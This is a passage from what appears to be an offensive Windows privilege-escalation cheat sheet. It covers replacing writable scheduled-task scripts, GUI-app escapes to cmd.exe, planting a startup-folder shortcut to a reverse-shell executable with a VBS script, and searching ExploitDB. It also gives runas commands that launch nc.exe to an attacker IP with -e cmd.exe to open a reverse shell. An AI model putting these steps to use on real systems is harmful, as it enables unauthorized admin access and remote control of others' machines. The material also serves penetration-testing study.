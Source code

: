 * If writeable, replace this script with a malicious executable to obtain reverse shell

* Wait until task executes

## Insecure GUI Apps

* find an app with GUI file access ran by admin

```cmd

tasklist /V | findstr admin_GUI.exe

```

* once found that app, click on "Open File..." and type in the navigation bar on top of the window `file://c:/windows/system32/cmd.exe`

## Startup Folder compromise

* System startup folder is located in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup` and if shortcut .lnk is place wihin then program linked shall autostart at reboot.

* This can be exploited by creating and launching a .vbs script and waiting until admin logs in 

```vbs
# create_shortcut.vbs

Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

* Activate this script `cscript create_shortcut.vbs`
* Wait for admin

## Non MS Apps exploitation

* On ExploitDB select `Windows -> Apps -> Privesc -> Has App`
* Look for possbible vulnerable apps using `seatbelt.exe` on victim or `tasklist /V` or `winpeas.exe quiet processinfo`
* find the exploit on `exploit.db` as shown above

## User impersonation

```powershell
## SU ON WINDOWS = runas

C:\Windows\System32\runas.exe /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

# IF THE USER SAVED THE CREDENTIALS
C:\Windows\System32\runas.exe /savecred /user:<username> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

# using powershell

$securePassword = ConvertTo-SecureString -String "Password123" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList 'user101', $securePassword

Start-Process powershell.exe -Credential $credential

# it is going to start a new window with powershell as compromised user

```